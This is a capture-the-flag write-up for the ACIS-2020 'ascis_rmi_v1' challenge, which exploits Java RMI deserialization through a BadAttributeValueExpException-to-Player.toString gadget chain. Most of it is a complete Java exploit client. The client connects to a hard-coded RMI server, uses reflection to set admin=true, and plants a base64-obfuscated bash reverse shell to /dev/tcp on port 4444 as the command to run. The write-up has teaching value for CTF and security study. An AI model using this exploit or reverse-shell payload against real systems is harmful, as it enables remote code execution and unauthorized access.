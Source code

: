 ```yaml
---
# Documentation: https://sourcethemes.com/academic/docs/managing-content/

title: "[ACIS-2020-Quals] ascis_rmi_v1"
subtitle: ""
summary: ""
authors: [DoubleVKay]
tags: []
categories: [writeups,web,ctf,java,deserialization]
---
```


# [ACIS-2020-Quals] ascis_rmi_v1

## Description

- Source: [acis_rmi_v1](src/acis_rmi_v1)
- JDK version: [jdk-8u131-linux-x64.tar.gz](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html)

## Solution

### Idea

The gadget chain in this challenge similars to [CommonsCollections5 gadget chain](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections5.java). But it's a simpler version. The challenge has its own RCE endpoint - `Player.toString()`, so we just need setting `admin=true` and change logCommand to run remote commands.

### Decompiling

- Client: `jar -xf ascis_player.jar`
- Server: `jar -xf ascis_service1.jar`

### Building Client

Change, build and run `ASCISPlayer` (check comments for more details):

```java
package rmi;

import java.lang.reflect.Field;
import java.rmi.NotBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import javax.management.BadAttributeValueExpException;

/*
    Gadget chain:
        ObjectInputStream.readObject()
            BadAttributeValueExpException.readObject()
                Player.toString()

*/

public class ASCISPlayer {
    public ASCISPlayer() {
    }

    public static void main(String[] args) throws RemoteException, NotBoundException, NoSuchFieldException, IllegalAccessException {

        // Connect to RMI server
        String serverIP = "207.148.75.135";
        int serverPort = 1337;
        Registry registry = LocateRegistry.getRegistry(serverIP, serverPort);
        ASCISInterf ascisInterf = (ASCISInterf)registry.lookup("ascis");

        // Java Reflection

        // Get Class Player and object Player
        Class cls = Player.class;
        Player player = new Player();

        // Set admin= true
        player.setAdmin(true);

        // Set cmd
        Field cmdlog = player.getClass().getDeclaredField("logCommand");
        cmdlog.setAccessible(true);
        // cmd ~= bash -i >& /dev/tcp/10.your.ip.address/4444 0>&1
        cmdlog.set(player,"bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC55b3VyLmlwLmFkZHJlc3MvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}");

        // Build payload
        BadAttributeValueExpException payload = new BadAttributeValueExpException(null);
        Field valfield = payload.getClass().getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(payload, player); // ~= BadAttributeValueExpException(player)

        // Call login() to exploit
        System.out.println(ascisInterf.login(payload));

    }
}
```